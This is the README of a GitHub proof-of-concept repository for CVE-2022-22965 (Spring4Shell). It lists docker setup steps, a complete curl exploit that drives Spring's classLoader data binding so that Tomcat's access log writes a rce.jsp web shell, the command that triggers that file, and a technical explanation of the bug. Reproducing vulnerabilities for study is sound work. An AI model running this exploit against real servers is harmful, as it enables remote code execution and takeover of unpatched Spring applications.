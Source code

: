# CVE-2022-22965-PoC

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Kirill89](https://github.com/Kirill89) |
| Url      | [https://github.com/Kirill89/CVE-2022-22965-PoC](https://github.com/Kirill89/CVE-2022-22965-PoC)                                               |
| Stars    | 27                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-22965 PoC

Minimal example of how to reproduce CVE-2022-22965 Spring RCE.

## Run using docker compose

1. Build the application using Docker compose
    ```shell
    docker-compose up --build
    ```
2. To test the app browse to [http://localhost:8080/handling-form-submission-complete/greeting](http://localhost:8080/handling-form-submission-complete/greeting)
3. Run the exploit
    ```shell
    ./exploits/run.sh
    ```
4. The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.
5.  Use the exploit
Browse to [http://localhost:8080/handling-form-submission-complete/rce.jsp](http://localhost:8080/handling-form-submission-complete/rce.jsp)


## Alternative way (debug oriented)

1. Run the Tomcat server in docker
    ```shell
    docker run -p 8888:8080 --rm --interactive --tty --name vm1 tomcat:9.0
    ```
    _Add `-p 5005:5005 -e "JAVA_OPTS=-Xdebug -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"` if you want to debug remotely._
2. Build the project
    ```shell
    ./mvnw install
    ```
3. Deploy the app
    ```shell
    docker cp target/handling-form-submission-complete.war vm1:/usr/local/tomcat/webapps
    ```
4. Write the exploit
    ```shell
    curl -X POST \
      -H "pre:<%" \
      -H "post:;%>" \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}iSystem.out.println(123)%{post}i' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/handling-form-submission-complete' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=rce' \
      -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
      http://localhost:8888/handling-form-submission-complete/greeting
    ```
    The exploit is going to create `rce.jsp` file in  `webapps/handling-form-submission-complete` on the web server.

5. Use the exploit
    ```shell
    curl http://localhost:8888/handling-form-submission-complete/rce.jsp
    ```
    Now you'll see `123` in the container's terminal. Replace `System.out.println(123)` with your payload to execute arbitrary code.

## Short technical explanation

1. Spring knows how to bind form fields to Java object. In our example `GreetingController` handle POST requests on `/greeting` endpoint and binds form fields to the `Greeting` object.
2. It also supports binding of nested fields (e.g. `user.info.firstname`). See the [AbstractNestablePropertyAccessor](https://github.com/spring-projects/spring-framework/blob/8baf404893037951ac29393a41d40af4fa11775b/spring-beans/src/main/java/org/springframework/beans/AbstractNestablePropertyAccessor.java#L622) for references.
3. In our example `Greeting` class has two fields `id` and `content`, but actually it also has a reference to the Class object. We can use `class.module.classLoader` as a form data key to access the classloader.
4. In the [fix](https://github.com/spring-projects/spring-framework/commit/002546b3e4b8d791ea6acccb81eb3168f51abb15) we can see that the main change was to restrict access to most of the Class object properties, including the `module` one.
5. This behaviour allows us to set public properties of classes accessible via nested reference chain from the `Greeting` class. Nothing else. In most of the cases it is not even dangerous because no classes with public fields are available even from `class.module.classLoader.`.
6. It becomes a problem on the Tomcat server because the classloader there has [`getResources` accessor](https://tomcat.apache.org/tomcat-8.0-doc/api/org/apache/catalina/loader/WebappClassLoaderBase.html#getResources()) which allows us to continue the reference chain and access one of the instances of [the `AccessLogValve` class](https://tomcat.apache.org/tomcat-9.0-doc/api/org/apache/catalina/valves/AccessLogValve.html).
7. This class is meant to write logs. We change some properties to make it write files with the name and content of our choice. We have arbitrary file write at this point.
8. We create `jsp` file with in the root of the application folder with the malicious payload. As far as `jsp` are automatically executed by the Tomcat we can navigate to it in the browser and eventually execute the payload. Now it is RCE.

## Conditions

The exploit works only on Tomcat because it has special classloader. Although the similar reference chain may exist on other web application servers as well. It is not simply discovered yet.

The exploit requires Java 9 or above because `module` property was added in Java 9.

## References

- The server part is based on the https://gist.github.com/esell/c9731a7e2c5404af7716a6810dc33e1a step-by-step manual.
- The exploit part is based on https://github.com/BobTheShoplifter/Spring4Shell-POC/blob/0c557e85ba903c7ad6f50c0306f6c8271736c35e/poc.py script.
- Snyk advisory about the vulnerability is available here: https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORK-2436751 



## Get the content

```
git clone https://github.com/Kirill89/CVE-2022-22965-PoC
cd CVE-2022-22965-PoC
```

{% embed url="https://github.com/Kirill89/CVE-2022-22965-PoC" %}

<figure><img src="https://avatars.githubusercontent.com/u/2003936?v=4" alt=""><figcaption><p>Kirill89</p></figcaption></figure>
